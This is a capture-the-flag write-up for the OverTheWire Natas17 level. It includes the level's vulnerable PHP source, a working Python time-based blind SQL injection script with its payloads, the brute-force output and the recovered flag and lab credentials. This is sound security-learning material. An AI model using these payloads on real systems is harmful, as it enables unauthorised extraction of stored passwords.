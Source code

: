 # CTF Writeup - **OverTheWire Natas16 - Natas17**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas16 - Natas17
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 17-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using time based blind injection.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas17
Password: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
URL:      http://natas17.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for an input username.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
Username: natas
Check Existence 
# 
```

Now we see that we are not getting any output. This is interesting. Lets view the source code.

```bash
# <?php

# /*
# CREATE TABLE `users` (
#   `username` varchar(64) DEFAULT NULL,
#   `password` varchar(64) DEFAULT NULL
# );
# */

# if(array_key_exists("username", $_REQUEST)) {
#     $link = mysqli_connect('localhost', 'natas17', '<censored>');
#     mysqli_select_db($link, 'natas17');

#     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
#     if(array_key_exists("debug", $_GET)) {
#         echo "Executing query: $query<br>";
#     }

#     $res = mysqli_query($link, $query);
#     if($res) {
#     if(mysqli_num_rows($res) > 0) {
#         //echo "This user exists.<br>";
#     } else {
#         //echo "This user doesn't exist.<br>";
#     }
#     } else {
#         //echo "Error in query.<br>";
#     }

#     mysqli_close($link);
# } else {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit.  That takes out input username and appends it to an sql string and executes this sql query and then checks if the return value has greater than 1 then its shows the password. We can see that the query is executed but we can take advantage of this by using a time based sql injection. For this challenge we can use sql query such as `select * from users where username=natas18 and password like binary %a% and sleep(3)`. What essentially happens that it tries to find the details of user with username `natas18` and password that contains `a` if these are available then it sleeps for 3 seconds. if there isnt a entry then it doesn't sleep for 3 seconds. With this knowledge we can build a script which measures a response time of the request and then try to find the password as shown below. This is similar to previous challenge.


```bash
import string
import requests
from requests.auth import HTTPBasicAuth

# Credentials and target URL
username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
url = "http://natas17.natas.labs.overthewire.org"

Auth = HTTPBasicAuth(username, password)
headers = {'Content-Type': 'application/x-www-form-urlencoded'}
filteredchars = ''
passwd = ''
allchars = string.ascii_letters + string.digits

# Step 1: Build the list of valid characters in the password
for char in allchars:
    payload = 'username=natas18" and password like binary "%{}%" and sleep(3)#'.format(char)
    r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)
    if r.elapsed.seconds >= 3:
        filteredchars = filteredchars + char
        print("validcharacters so far: " + filteredchars)


# Step 2: Brute-force the password character by character
for i in range(0, 32):
    for char in filteredchars:
        payload = 'username=natas18" and password like binary "{}%" and sleep(3)#'.format(passwd + char)
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)
        if r.elapsed.seconds >= 3:
            passwd = passwd + char
            print("password so far:" + passwd)
            break
```

What we are doing here is that we are essentially finding all the characters in the password using the bruteforce approach and time based blind sql injection which checks if the character is present in the passowrd file and sleeps for 3 seconds and then only returns response. if character is present it responds after 3 seconds but if the character is not present then it will respond immediately. With this we will have all the characters in the password. Now we need to determine the order of these characters that is done in the second loop where we build the characters one by one until we find the right order.  

```bash
# validcharacters so far: b
# validcharacters so far: bd
# validcharacters so far: bdg
# validcharacters so far: bdgj
# validcharacters so far: bdgjl
# validcharacters so far: bdgjlp
# validcharacters so far: bdgjlpx
# validcharacters so far: bdgjlpxy
# validcharacters so far: bdgjlpxyB
# validcharacters so far: bdgjlpxyBC
# validcharacters so far: bdgjlpxyBCD
# validcharacters so far: bdgjlpxyBCDG
# validcharacters so far: bdgjlpxyBCDGJ
# validcharacters so far: bdgjlpxyBCDGJK
# validcharacters so far: bdgjlpxyBCDGJKL
# validcharacters so far: bdgjlpxyBCDGJKLO
# validcharacters so far: bdgjlpxyBCDGJKLOP
# validcharacters so far: bdgjlpxyBCDGJKLOPR
# validcharacters so far: bdgjlpxyBCDGJKLOPRV
# validcharacters so far: bdgjlpxyBCDGJKLOPRVZ
# validcharacters so far: bdgjlpxyBCDGJKLOPRVZ1
# validcharacters so far: bdgjlpxyBCDGJKLOPRVZ14
# validcharacters so far: bdgjlpxyBCDGJKLOPRVZ146
# password so far:6
# password so far:6O
# password so far:6OG
# password so far:6OG1
# password so far:6OG1P
# password so far:6OG1Pb
# password so far:6OG1PbK
# password so far:6OG1PbKd
# password so far:6OG1PbKdV
# password so far:6OG1PbKdVj
# password so far:6OG1PbKdVjy
# password so far:6OG1PbKdVjyB
# password so far:6OG1PbKdVjyBl
# password so far:6OG1PbKdVjyBlp
# password so far:6OG1PbKdVjyBlpx
# password so far:6OG1PbKdVjyBlpxg
# password so far:6OG1PbKdVjyBlpxgD
# password so far:6OG1PbKdVjyBlpxgD4
# password so far:6OG1PbKdVjyBlpxgD4D
# password so far:6OG1PbKdVjyBlpxgD4DD
# password so far:6OG1PbKdVjyBlpxgD4DDb
# password so far:6OG1PbKdVjyBlpxgD4DDbR
# password so far:6OG1PbKdVjyBlpxgD4DDbRG
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6Z
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZL
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZLl
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZLlC
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCG
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGg
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgC
# password so far:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```


## Flag

**Flag:** 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ


---

## Lessons Learned

It was a bit of challenge for me. I was able to grasp the idead behind the solution very easily. I learnt a lot on how to approach these types of challenges.